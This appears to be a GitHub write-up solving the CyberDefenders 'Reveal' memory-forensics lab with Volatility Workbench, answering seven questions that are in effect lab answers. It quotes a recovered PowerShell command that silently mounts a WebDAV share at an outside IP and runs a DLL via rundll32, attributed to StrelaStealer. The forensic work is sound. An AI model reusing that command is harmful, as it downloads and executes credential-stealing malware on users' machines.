








# CyberDefenders-Reveal
This is where I will put a write-up of my various solutions to the Cyberdefenders Reveal Lab. This lab comes with 7 questions to be answered and I will be using Volatility Workbench (found here: https://www.osforensics.com/tools/volatility-workbench.html) to complete it.  

First, A quick tutorial to get your volatility workbench working for this scenario. 
Step 1: Extract the tool from the downloaded zip file 
Step 2: Launch the tool and select "Browse Image," and then navigate to the image you wish to analyze (in this case, 192-Reveal.dmp) 
Step 3: Select "Get Process List" (the button directly below Browse Image) 
Step 4: Begin exploring the tool and the image 

## 1. Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process?
While looking through the commands that the tool has built in, I noticed one that claimed to return the CLI arguments for each process. After running this command, I noticed this particularly suspicious argument from PowerShell **powershell.exe  -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry**. After analyzing this command with the help of Google Gemini, I discovered that it does these things: Launch a hidden PowerShell window and then force Windows to connect to a remote server with the IP 45.9.74.32 on port 8888 using WebDAV, then it uses the rundll.exe module of Windows to run a file named 3435.dll  
  

## 2. Knowing the parent process ID (PPID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process?
Now that we know PowerShell is the process running the malicious commands, we can go back to the initial output we got when loading the file into the tool, where the second column from the left is the PPID of all processes in the file. This reveals that our PowerShell process has a PPID of **4120**  
  

## 3. Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload?
This information is also included in the CLI args for the malicious command being run. In this case, the answer is **3435.dll**  
  

## 4. Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server?
This information is also contained within the CLI args for the malicious command, and reveals the answer to be **davwwwroot** 
  

## 5. What is the MITRE ATT&CK sub-technique ID that describes the execution of a second-stage payload using a Windows utility to run the malicious file?
Answering this requires some level of familiarity with the MITRE ATT&CK framework and how each tactic and technique fit together, we know that its running malicious code, in other words, execution (TA0002). From there we can locate System Binary Proxy Execution (T1218) and then we can find rundll32 **(T1218.011)** 
  
  

## 6. Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under?
Finding this info requires us to be able to concatenate the relation between the malicious process (PID 3692) and the users on the system. By running **windows.getsids.GetSIDs with a process ID parameter of 3692** we find that **Elon** is the only user account to be associated with the process. 
  

## 7. Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family?
Finding this info requires us to once again grab something from the CLI args. By grabbing the IP it calls, 45.9.74.32, and submitting it to VirusTotal, we can find many related results, one of which is a .virus file. By exploring that file, we can find family tags for strela and stealer, which points us directly to **strelastealer**, a credential stealer that specifically targets user emails. 
  
  
